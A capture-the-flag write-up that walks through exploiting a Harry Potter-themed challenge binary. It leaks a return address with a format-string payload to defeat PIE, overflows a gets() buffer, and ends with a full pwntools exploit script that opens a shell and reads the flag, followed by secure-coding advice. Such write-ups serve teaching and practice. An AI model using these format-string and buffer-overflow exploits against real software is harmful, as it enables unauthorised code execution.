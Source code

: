 # Intro to Pwning 1

When run, the binary first asks us for our witch name, which it then prints back to us and then asks us for a magic spell:
```
$ ./pwn1
Enter your witch name:
Hermione
┌───────────────────────┐
│ You are a Hufflepuff! │
└───────────────────────┘
Hermione enter your magic spell:
Expelliarmus
~ Protego!
```

Looking at the code we can quickly find two vulnerabilities:
1. All user input is read using the `gets` function, which doesn't have a length limit for the input and can therefore be used for buffer overflows.
2. The binary uses `printf` directly to print the entered name, which among other things allows us to leak data from the stack.

We can also find an unused function `WINgardium_leviosa` which opens a shell:
```cpp
void WINgardium_leviosa() {
    printf("┌───────────────────────┐\n");
    printf("│ You are a Slytherin.. │\n");
    printf("└───────────────────────┘\n");
    system("/bin/sh");
}
```

Looking at the `checksec` output we can see that the binary has no stack canary but `PIE` is enabled:
```
$ checksec pwn1
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Because there is no stack canary we can simply use `gets` to overwrite the return address and jump to `WINgardium_leviosa` but
because of `PIE` we first need to find out the base address of the binary.
We can use `printf` for that.

Using `gdb` and `pwndbg` we can find out that the return address is at position `33` on the stack when `printf` is called in `welcome`:
```
pwndbg> disass welcome
...
   0x0000000008000a81 <+94>:    call   0x80007c0 <printf@plt>
...
pwndbg> b *welcome+94
pwndbg> r
pwndbg> stack 50
...
1f:00f8│          0x7ffffffee018 —▸ 0x80009e9 (ignore_me_init_signal+31) ◂— nop     /* 0x48e5894855c35d90 */
20:0100│ rbp      0x7ffffffee020 —▸ 0x7ffffffee040 ◂— 0x0
21:0108│          0x7ffffffee028 —▸ 0x8000b21 (main+45) ◂— mov    eax, 0 /* 0xff5ee800000000b8 */
...
pwndbg> pi 0x21
33
```

Because `printf`'s first six variadic arguments are taken from registers we can leak the address using `%39$p` i.e. printing the 39th argument to `printf` as a pointer which will be the 33rd value on the stack:

```
Enter your witch name:
%39$p
┌───────────────────────┐
│ You are a Hufflepuff! │
└───────────────────────┘
0x7f2461e00b21 enter your magic spell:
```

Taking another look with `gdb` we can also find out the offset between the return address and the `WINgardium_leviosa` function:
```
pwndbg> disass welcome
...
   0x0000000008000a88 <+101>:   ret
...
pwndbg> b *welcome+101
pwndbg> r
pwndbg> stack 1
00:0000│ rsp  0x7ffffffee028 —▸ 0x8000b21 (main+45) ◂— mov    eax, 0 /* 0xff5ee800000000b8 */
pwndbg> p WINgardium_leviosa
$1 = {<text variable, no debug info>} 0x80009ec <WINgardium_leviosa>
pwndbg> pi 0x8000b21 - 0x80009ec
309
```

and the offset between the buffer and the return address for the second `gets`, which is `0x108` bytes:
```
pwndbg> disass AAAAAAAA
...
   0x0000000008000aaf <+38>:    call   0x8000800 <gets@plt>
   0x0000000008000ab4 <+43>:    lea    rax,[rbp-0x100]
...
pwndbg> b *AAAAAAAA+43
pwndbg> c
Hermione enter your magic spell:
AAAAAAAA
pwndbg> stack 50
00:0000│ rax r8 r10 r11 rsp  0x7ffffffedf20 ◂— 'AAAAAAAA'
...
21:0108│                     0x7ffffffee028 —▸ 0x8000b2b (main+55) ◂— nop     /* 0x4157419066c3c990 */
```

We also have to start the input for the second `gets` with `"Expelliarmus\0"` because the program
compares the spell we give it and immediately exits if it's not `"Expelliarmus"`.
Luckily `strcmp` stops at null-bytes but `gets` reads until newlines so this is not a problem.

Trying the exploit will now give a `segfault` in `system` because of a misaligned stack
but we can just jump one instruction later into `WINgardium_leviosa` which will skip a `push`
instruction and align the stack correctly.

The final exploit now looks like this:
```python
#!/usr/bin/env python3

from pwn import *

p = remote("hax1.allesctf.net", 9100)

p.recvuntil("Enter your witch name:")
p.sendline("#%39$p#")

p.recvuntil("#")
leak = p.recvuntil("#")
leak = int(leak[:-1], 16)

log.info(f"Leaked ret address: {leak:#x}")

p.recvuntil(":")

leak += 0x9ec - 0xb1b
log.info(f"Overriding with: {leak:#x}")

payload = b"Expelliarmus\0".ljust(0x108) + p64(leak)
p.sendline(payload)
p.interactive()
```

And running it gives us a shell and the flag:
```
$ ./exploit.py
[+] Opening connection to hax1.allesctf.net on port 9100: Done
[*] Leaked ret address: 0x55dcfcb87b21
[*] Overriding with: 0x55dcfcb879ed
[*] Switching to interactive mode

~ Protego!
┌───────────────────────┐
│ You are a Slytherin.. │
└───────────────────────┘
$ cat flag
CSCG{NOW_PRACTICE_MORE}
```

Clearly, it's better to follow the `man`-pages advice and `Never use gets(). [...] Use fgets() instead.`
And of course letting users control the first argument of `printf` is equally bad.
Instead, `printf("%s", user_input)` should be used.
